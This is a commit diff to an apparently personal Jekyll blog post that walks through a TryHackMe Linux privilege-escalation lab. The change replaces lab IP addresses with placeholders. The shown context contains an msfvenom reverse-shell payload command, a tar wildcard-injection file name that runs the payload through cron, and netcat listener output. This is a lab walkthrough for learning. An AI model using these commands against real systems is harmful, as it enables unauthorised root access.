

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-04-03-tryhackme-linux-privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 10694 px. Shown: the part 152-1179 px from the top of the window at 95% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Modified

```diff
--- a/_posts/2021-04-03-tryhackme-linux-privesc.md
+++ b/_posts/2021-04-03-tryhackme-linux-privesc.md
@@ -314,7 +314,7 @@ cd /home/user
 tar czf /tmp/backup.tar.gz *{% endraw %}{% endcapture %} {% include code.html code=code %}
 
 Using `msfvenom` create a reverse shell payload.
-{% capture code %}{% raw %}msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.180.89 LPORT=443 -f elf -o shell.elf{% endraw %}{% endcapture %} {% include code.html code=code %}
+{% capture code %}{% raw %}msfvenom -p linux/x64/shell_reverse_tcp LHOST=<source-ip> LPORT=443 -f elf -o shell.elf{% endraw %}{% endcapture %} {% include code.html code=code %}
 
 The output will be similar to
 {% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
@@ -332,7 +332,7 @@ touch /home/user/--checkpoint-action=exec=shell.elf{% endraw %}{% endcapture %}
 
 Create a netcat listener using `rlwrap -cAr nc -lnvp 443`, and when cron runs, `reverse shell` will be spawned.
 {% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443)
-Connection from 10.10.208.200 45211 received!
+Connection from <target-ip> 45211 received!
 bash: no job control in this shell{% endraw %}{% endcapture %} {% include code.html code=code %}
 
 
```
Also changed, not shown: other parts of _posts/2021-04-03-tryhackme-linux-privesc.md (+4 -1 lines).
